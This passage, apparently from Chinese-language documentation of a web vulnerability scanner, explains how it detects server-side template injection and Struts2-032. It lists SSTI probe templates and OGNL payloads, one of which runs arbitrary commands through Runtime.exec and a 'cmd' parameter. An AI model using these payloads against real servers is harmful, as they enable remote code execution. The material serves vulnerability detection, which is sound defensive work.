 
如果随机字符串存在响应中就继续测试ssti  

payload模板 计算两个数字的乘积  

```python
payloads = [
    "{%d*%d}",
    "<%%=%d*%d%%>",
    "#{%d*%d}",
    "${{%d*%d}}",
    "{{%d*%d}}",
    "{{= %d*%d}}",
    "<# %d*%d>",
    "{@%d*%d}",
    "[[%d*%d]]",
    "${{\"{{\"}}%d*%d{{\"}}\"}}",
]
```

会发起三次测试  

不编码请求 `self.req(positon, url_dict2str(data, positon))`  
url编码请求 `self.req(positon, data)`  
html编码请求  
```python
data[k] = html.escape(data[k])
r1 = self.req(positon, data)
```

都去判断两个随机数字的乘积是否存在到响应的页面中  


#### struts2_032 Struts2-032远程代码执行

直接打payload在data中    
```python
ran_a = random.randint(10000000, 20000000)
ran_b = random.randint(1000000, 2000000)
ran_check = ran_a - ran_b
lin = 'expr' + ' ' + str(ran_a) + ' - ' + str(ran_b)

checks = [str(ran_check), '无法初始化设备 PRN', '??????? PRN', '<Struts2-vuln-Check>',
            'Unable to initialize device PRN']
payloads = [
    r"method%3a%23_memberAccess%3d@ognl.OgnlContext+@DEFAULT_MEMBER_ACCESS%2c%23kxlzx%3d+@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2c%23kxlzx.println%28" + str(
        ran_a) + '-' + str(ran_b) + "%29%2c%23kxlzx.close",
    r"method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd[0]).getInputStream()).useDelimiter(%23parameters.pp[0]),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp[0],%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&cmd=print+test&pp=\\A&ppp=%20&encoding=UTF-8",
    r"method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd[0]).getInputStream()).useDelimiter(%23parameters.pp[0]),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp[0],%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&cmd=" + lin + r"&pp=\\A&ppp=%20&encoding=UTF-8",
    r"method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23req%3d%40org.apache.struts2.ServletActionContext%40getRequest(),%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23path%3d%23req.getRealPath(%23parameters.pp[0]),%23w%3d%23res.getWriter(),%23w.print(%23path),%23w.print('Check>'),1?%23xx:%23request.toString&pp=<Struts2-vuln-&encoding=UTF-8"
]
```
